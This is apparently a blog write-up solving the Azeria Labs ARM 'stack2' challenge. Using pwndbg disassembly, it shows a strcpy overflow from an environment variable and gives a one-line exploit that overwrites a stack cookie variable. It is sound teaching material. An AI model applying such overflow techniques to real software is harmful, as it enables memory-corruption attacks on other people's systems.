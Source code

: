 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part III"
tags: reversing exploiting ARM iasm azeria-labs
---
```


Another fast moving post
about exploiting the [third Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Setup

Stack allocation, not changes respect `stack0` or `stack1`.

```nasm
pwndbg> pdisass &main
 ► 0x104e4 <main>       push   {fp, lr}
   0x104e8 <main+4>     add    fp, sp, #4
   0x104ec <main+8>     sub    sp, sp, #0x50
   0x104f0 <main+12>    str    r0, [fp, #-0x50]
   0x104f4 <main+16>    str    r1, [fp, #-0x54]
```

Read of an environment variable named `"GREENIE"`:

```nasm
   0x104f8 <main+20>    ldr    r0, [pc, #0x6c]
   0x104fc <main+24>    bl     #getenv@plt <getenv@plt>

pwndbg> x/1wx 0x1056c
0x1056c <main+136>:     0x000105f4

pwndbg> x/1sb 0x000105f4
0x105f4:        "GREENIE"
```

The value is stored in the stack, loaded from it and
then compared with 0. In other words the program checks if `getenv`
returned `NULL` or not.

```nasm
   0x10500 <main+28>    str    r0, [fp, #-8]
   0x10504 <main+32>    ldr    r3, [fp, #-8]
   0x10508 <main+36>    cmp    r3, #0
   0x1050c <main+40>    bne    #main+56 <main+56>
```

## The vulnerability

Following the *taken* branch we find the vulnerable `strcpy` call
that copies the content of the environment variable into a buffer in the
stack.

```nasm
 ► 0x1051c <main+56>    mov    r3, #0
   0x10520 <main+60>    str    r3, [fp, #-0xc]
   0x10524 <main+64>    sub    r3, fp, #0x4c
   0x10528 <main+68>    mov    r0, r3
   0x1052c <main+72>    ldr    r1, [fp, #-8]
   0x10530 <main+76>    bl     #strcpy@plt <strcpy@plt>
```

This is the memory layout of the stack before the call to `strcpy`:

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == char **argv
        |   \xdd\xdd\xdd\xdd   == int argc
buf ----|-->AAAA
  0x50  |   BBBB
        |   CCCC
        |   ... 13 more rows full of garbage ...
cookie----->\x00\x00\x00\x00   == explicit 0 set
ptr env-|-->\xcc\xcc\xcc\xcc   == char *env_var
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

After the call the cookie is checked against 0x0d0a0d0a:

```nasm
   0x10534 <main+80>    ldr    r3, [fp, #-0xc]
   0x10538 <main+84>    ldr    r2, [pc, #0x34]
   0x1053c <main+88>    cmp    r3, r2
   0x10540 <main+92>    bne    #main+108 <main+108>

pwndbg> x/1wx 0x10574
0x10574 <main+144>:     0x0d0a0d0a
```

Following the path if the branch is **not** taken:

```nasm
pwndbg> pdisass &main+96
 ► 0x10544 <main+96>     ldr    r0, [pc, #0x2c]
   0x10548 <main+100>    bl     #puts@plt <puts@plt>

   0x1054c <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10578
0x10578 <main+148>:     0x0001062c

pwndbg> x/1sb 0x0001062c
0x1062c:        "you have correctly modified the variable"
```

## The solution

To win we need 0x40 bytes for padding and the cookie `"\n\r\n\r"`.

```shell
pi@raspberrypi:~$ GREENIE="$(echo -en 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\r\n\r')" ./stack2
you have correctly modified the variable
```
